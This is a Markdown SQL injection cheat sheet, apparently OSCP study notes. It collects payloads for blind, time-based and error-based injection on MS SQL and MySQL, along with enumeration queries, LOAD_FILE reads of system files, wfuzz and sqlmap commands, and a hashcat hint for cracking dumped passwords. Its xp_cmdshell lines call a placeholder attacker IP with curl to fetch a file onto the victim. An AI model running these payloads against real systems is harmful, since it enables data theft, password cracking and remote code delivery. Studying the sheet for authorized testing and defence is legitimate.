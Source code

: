 ### :open_file_folder: References

- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
- https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
- https://notchxor.github.io/oscp-notes/2-web/sqli/
- https://www.asciitable.com/
- https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
- https://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html
- https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection

### :open_file_folder: Blind SQL Injections

Find columns names

```SQL
' HAVING 1=1 --
' GROUP BY table.column1 HAVING 1=1 --
' GROUP BY table.column1, column2 HAVING 1=1 --
' GROUP BY table.column1, column2, column3(n) HAVING 1=1 -- and so on
```

Time-Based 

Use the waiting time to determine whether the conditional equation is valid

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 97) WAITFOR DELAY '00:00:05' --
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 98) WAITFOR DELAY '00:00:05' -- and so on

-- e.g. confirm that the username is correct
'; IF (substring((select TOP 1 username from users), 1, 5) = 'admin') WAITFOR DELAY '00:00:05'--
```

```SQL
-- check column length
'; IF (select LEN(password) from users) = 64 WAITFOR DELAY '00:00:05' --
```

single column condition test

```SQL
/* 
    Check if there are uncommon [mysql] db names
    if found, wait N seconds
    ='1'...= '2'... and so on
*/
SELECT 'y' 
WHERE 1=0 or 
SLEEP(IF((SELECT COUNT(*) FROM information_schema.schemata 
WHERE schema_name NOT IN ('information_schema', 'mysql', 'performance_schema'))='1', 5, 0)); 
```

[MS SQL xp_cmdshell command testing](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16)

```SQL
'; EXEC xp_cmdshell 'curl http://<attacker ip>'; --
'; EXEC xp_cmdshell 'curl http://<attacker ip>/<file> -o C:\\Users\\Public\\Documents\\<file>'; --
```

### :open_file_folder: Error-Based

SQL Server 

- https://infosecwriteups.com/exploiting-error-based-sql-injections-bypassing-restrictions-ed099623cd94
- https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/

```SQL
/* Adding additional strings ensures that error messages are prompted. */

/* database */
(CASE WHEN 1=CONVERT(INT, (CHAR(58) + CHAR(58) + (SELECT TOP 1 CAST(([name]) AS NVARCHAR(4000)) FROM [master]..[sysdatabases] WHERE name NOT IN ('master','model','msdb','tempdb')) + CHAR(58) + CHAR(58))) THEN 1 ELSE 2 END)

/* table */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 table_name FROM information_schema.tables)) THEN 1 ELSE 2 END)
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN ('test'))) THEN 1 ELSE 2 END)

/* column */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column_name FROM information_schema.columns where table_name = 'test')) THEN 1 ELSE 2 END)
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column_name FROM information_schema.columns where table_name = 'test' AND column_name NOT IN ('id'))) THEN 1 ELSE 2 END)

/* data */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column1+';'+column2 FROM [database].dbo.test where id = '1')) THEN 1 ELSE 2 END)
```

### :open_file_folder: MySQL

Get DBs

```MySQL
SELECT group_concat(schema_name) FROM information_schema.schemata;
# For example, assuming that only one column is searched
# ' UNION SELECT group_concat(schema_name) FROM information_schema.schemata #
```

Get tables in DB

```MySQL
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = '<DB>';
```

Get columns in table

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = '<table>';
```

Find all ```user``` tables in DBs

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns where table_name = 'user';
# SELECT password FROM user
# MD5 password, hashcat -a 0 -m 0 hash.txt rockyou.txt
```

[Load file](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file): we need FILE privilege

```MySQL
SELECT * LOAD_FILE('C:\Windows\System32\drivers\etc\hosts')
/* table contains columns */
x' UNION SELECT 1, LOAD_FILE('C:\Windows\System32\drivers\etc\hosts'),3-- -
```

Combining website LFI

```shell
wfuzz -z file,/tmp/file_inclusion_linux.txt -d "username=' UNION SELECT 1, LOAD_FILE('FUZZ'), 3, 4, 5, 6; -- -" --hw 89 <url>
# -d postdata
# -z file,wordlist
# hw:hide responses words
```

### :no_entry: sqlmap (:radioactive::radioactive::radioactive: cannot be used in the exam)

```
sqlmap -u "url" --dump -C "columns" -T "tables" -D "database" 
sqlmap -r post.txt -p "parameter_name" --dump -C "columns" -T "tables" -D "database"
```

post.txt = request contents

![SQLi_2022 02 28_19h37m55s_001](https://user-images.githubusercontent.com/8998412/155977929-7e38d3bb-8d61-4afa-af6b-90ae1e13ec73.png)


### :no_entry: MS SQL

```sql
SELECT name, database_id, create_date FROM sys.databases;
SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
SELECT TABLE_NAME FROM <databasename>.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
```